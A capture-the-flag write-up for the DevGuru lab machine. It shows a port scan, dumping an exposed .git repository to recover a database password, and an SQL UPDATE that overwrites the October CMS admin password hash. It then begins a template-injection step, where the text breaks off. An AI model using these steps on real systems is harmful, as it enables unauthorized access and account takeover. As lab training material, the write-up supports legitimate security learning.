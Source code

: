 # DevGuru Writeup

### Credits: Zayotic

## [ Task 1 ] - user.txt

* First run an n̶m̶a̶p̶ rustscan* scan
### Scan Output:
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
--  snip  --
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: DevGuru
| http-git: 
|   10.10.37.203:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: first commit 
|     Remotes:
|       http://devguru.local:8585/frank/devguru-website.git
|_    Project type: PHP application (guessed from .gitignore)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corp - DevGuru
| vulners: 
|   cpe:/a:apache:http_server:2.4.29: 
|_    	CVE-2017-15710	5.0	https://vulners.com/cve/CVE-2017-15710
8585/tcp open  unknown syn-ack ttl 61
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
--  snip  --
```
### Dumping Git
* Git repository found!, Lets dump it and run a git checkout

```
adminer.php  bootstrap  index.php  plugins    server.php  themes
artisan      config     modules    README.md  storage
```
* It seems theres a database.php file in config/
#### config/database.php:

```
        'mysql' => [
            'driver'     => 'mysql',
            'engine'     => 'InnoDB',
            'host'       => 'localhost',
            'port'       => 3306,
            'database'   => 'octoberdb',
            'username'   => 'october',
            'password'   => 'SQ66EBYx4GT3byXH',
            'charset'    => 'utf8mb4',
            'collation'  => 'utf8mb4_unicode_ci',
            'prefix'     => '',
            'varcharmax' => 191,
        ],
```
### Lets click on sql command and start messing with the db
![image](./images/1.png)

### select * from backend_users;

![image2](./images/2.png)

### These creds are useless, trust me...

### Now since we cant use these credentials, why not switch them?
```
UPDATE `backend_users` SET `password` = '$2y$12$8uIf92IlXQT9MKVExDhT8uCcqwG3cZ/QJRs.gR920igyNV89ACI5m' WHERE `password` = '$2y$10$bp5wBfbAN6lMYT27pJMomOGutDF2RKZKYZITAupZ3x8eAaYgN6EKK'
```
### Franks password is now: password
### Lets login to the October CMS

![image3](./images/3.png)

## Now lets click on CMS > About
## Remove everything on the markup page and insert {{ onFunction }}
![image4](./images/4.png)
